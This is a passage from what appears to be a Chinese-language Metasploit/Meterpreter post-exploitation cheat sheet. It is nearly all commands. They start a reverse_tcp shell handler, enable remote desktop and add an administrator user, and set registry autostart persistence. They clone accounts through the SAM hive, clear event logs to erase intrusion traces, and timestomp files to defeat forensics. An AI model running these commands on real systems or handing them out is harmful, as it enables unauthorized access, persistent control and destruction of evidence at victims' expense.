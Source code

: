     ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST <lhost>
    set LPORT <lport>
    exploit -j
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**注册表操作**

通过注册表设置开机自启动
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```

通过注册表复制克隆用户
```bash
reg enumkey -k HKLM\\sam\\sam\\domains\\account\\users
shell
net user guest /active:yes
reg copy HkLM\sam\sam\domains\account\users\000001f4 HkLM\sam\sam\domains\account\users\000001f5
```

### 痕迹清除

```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**
```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```
